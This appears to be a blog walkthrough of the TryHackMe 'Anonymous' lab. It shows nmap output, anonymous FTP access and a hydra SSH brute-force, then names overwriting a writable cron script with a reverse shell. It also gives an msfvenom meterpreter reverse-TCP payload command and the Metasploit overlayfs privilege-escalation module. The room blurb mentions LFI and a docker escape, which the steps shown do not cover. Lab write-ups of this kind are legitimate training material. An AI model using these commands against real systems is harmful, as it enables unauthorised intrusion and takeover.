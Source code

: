```yaml
---
title: Anonymous
date: 2022-12-17 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, security, linux, permissions, medium]
---
```


[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous) - A website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

* * * 

<image src="/assets/anonymous01.jpg" alt="We are anonymous">

# pwn

starting off with nmap `sudo nmap -p- anonymous.thm -vvv`

```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.3.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

first off seem to be able to access the ftp server with `anonymous:anonymous`. inside is a `/scripts/` folder lets check it.

this script seems to check for temporary files.if there are none then it will log nothing to delete. if there are than for every tempory file deleted it will log the date and the name of the removed file then end the script.

checking the smb share there seems to be a couple jpegs. puppos being a much bigger file while much smaller image... but i think these are a rabbit hole.

running `enum4linux` we find one user `namelessone`. going to run hydra on the ssh with rockyou.

perhaps we can replace the clean.sh with our own clean.sh and call a reverse shell. doing this gets us in as namelessone. lets upgrade to a more stable meterpreter shell. `msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf LHOST=0.0.0.0 LPORT=6666 -o rev.elf`. doing this we can also run `multi/recon/local_exploit_suggester` and hope for an easy win.

running `exploit/linux/local/cve_2021_3493_overlayfs` will get us root and the root flag.
